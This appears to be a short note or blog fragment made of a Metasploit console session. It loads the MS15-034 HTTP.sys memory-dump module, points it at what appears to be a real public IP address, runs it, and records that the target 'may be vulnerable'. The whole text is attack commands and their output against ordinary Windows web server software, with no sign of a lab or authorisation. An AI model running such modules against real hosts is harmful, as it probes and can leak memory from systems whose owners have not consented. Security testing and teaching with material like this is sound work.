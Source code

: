 msf >
```
 use auxiliary/scanner/http/ms15_034_http_sys_memory_dump
```

msf auxiliary(scanner/http/ms15_034_http_sys_memory_dump) > 
```
set rhosts 218.94.138.251
```
```
rhosts => 218.94.138.251
```

msf auxiliary(scanner/http/ms15_034_http_sys_memory_dump) >
```
 run

```
 
[+] Target may be vulnerable...  #验证存在
[+] Stand by...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed